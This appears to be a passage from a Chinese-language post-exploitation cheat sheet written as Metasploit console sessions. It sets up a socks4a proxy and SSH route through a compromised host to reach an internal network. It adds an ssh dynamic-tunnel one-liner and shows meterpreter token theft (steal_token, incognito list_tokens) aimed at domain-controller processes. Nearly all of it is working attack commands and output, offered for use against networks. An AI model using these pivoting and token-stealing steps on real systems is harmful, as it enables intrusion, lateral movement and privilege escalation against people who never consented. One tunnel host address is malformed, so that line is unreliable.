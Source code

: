	   Name   Description
	   ----   -----------
	   Proxy  


	msf auxiliary(socks4a) > route print

	Active Routing Table
	====================

	   Subnet             Netmask            Gateway
	   ------             -------            -------
 	  10.42.0.54         255.255.255.0      Session 1

	msf auxiliary(socks4a) > ifconfig
	[*] exec: ifconfig

	msf auxiliary(socks4a) > set SRVHOST xxx.xxx.xx.xx
	SRVHOST => xxx.xxx.xx.xx (xxx.xxx.xx.xx为自己运行msf的vps机子)

	msf auxiliary(socks4a) > exploit
	[*] Auxiliary module execution completed

	[*] Starting the socks4a proxy server


之后使用proxychains 设置socks4代理 链接vps上的1080端口 就可以访问内网了

#####SSH代理

	msf > load meta_ssh
	msf > use multi/ssh/login_password
	msf > set RHOST 192.168.56.3
	RHOST => 192.168.56.3
	msf > set USER test
	USER => test
	msf > set PASS reverse
	PASS => reverse
	msf > set PAYLOAD ssh/metassh_session
	PAYLOAD => ssh/metassh_session
	msf > exploit -z
	[*] Connecting to dsl@192.168.56.3:22 with password reverse
	[*] metaSSH session 1 opened (127.0.0.1 -> 192.168.56.3:22) at 2011-12-28 	03:51:16 +1300
	[*] Session 1 created in the background.
	msf > route add 192.168.57.0 255.255.255.0 1

之后就是愉快的内网扫描了

当然还是推荐直接用

	ssh -f -N -D 127.0.0.1:6666 test@103.224.81.1.1
    
####偷取Token

	meterpreter>ps #查看目标机器进程，找出域控账户运行的进程ID
	meterpreter>steal_token pid
    
方法2
	
    meterpreter > getuid
	Server username: NT AUTHORITY\SYSTEM
	meterpreter > load incognito
	Loading extension incognito...success.
    meterpreter > list_tokens -u
